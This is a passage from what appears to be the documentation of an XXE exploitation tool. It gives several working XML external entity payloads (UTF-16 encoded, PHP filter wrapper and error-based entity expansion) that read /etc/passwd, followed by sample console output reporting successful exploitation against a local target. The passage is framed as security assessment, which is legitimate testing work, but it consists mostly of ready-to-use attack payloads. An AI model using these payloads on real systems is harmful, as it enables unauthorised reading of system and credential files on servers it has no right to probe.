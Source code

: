 ```xml
<?xml version="1.0" encoding="UTF-16"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <sensitive>&xxe;</sensitive>
</root>
```

Tests encoding-based filter evasion using UTF-16 character encoding.

### 4. PHP Wrapper XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<root>
    <data>&xxe;</data>
</root>
```

Tests PHP stream wrappers for advanced file access and encoding bypass.

### 5. Error-Based XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    <!ENTITY test "&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;">
]>
<root>
    <content>&test;</content>
</root>
```

Tests error message disclosure through XML entity expansion attacks.

## Expected Output

### Console Output Example

```text
2024-08-16 10:30:45,123 - __main__ - INFO - Starting comprehensive XXE exploitation assessment
2024-08-16 10:30:45,124 - __main__ - INFO - Discovered accessible endpoint: /
2024-08-16 10:30:45,125 - __main__ - INFO - Discovered accessible endpoint: /upload
2024-08-16 10:30:45,126 - __main__ - INFO - Testing 2 endpoints
2024-08-16 10:30:45,127 - __main__ - INFO - Generated 5 exploitation payloads

2024-08-16 10:30:45,200 - __main__ - INFO - Testing Classic DTD XXE on /
2024-08-16 10:30:45,350 - __main__ - INFO - ✓ Successful exploitation: Classic DTD XXE on /

2024-08-16 10:30:45,900 - __main__ - INFO - Testing Parameter Entity XXE on /
2024-08-16 10:30:46,050 - __main__ - INFO - ✓ Successful exploitation: Parameter Entity XXE on /

2024-08-16 10:30:46,600 - __main__ - INFO - Testing UTF-16 Encoded XXE on /upload
2024-08-16 10:30:46,750 - __main__ - DEBUG - ✗ Failed exploitation: UTF-16 Encoded XXE on /upload

============================================================
XXE EXPLOITATION ASSESSMENT REPORT
============================================================
Target URL: http://localhost:5000
Target File: /etc/passwd
```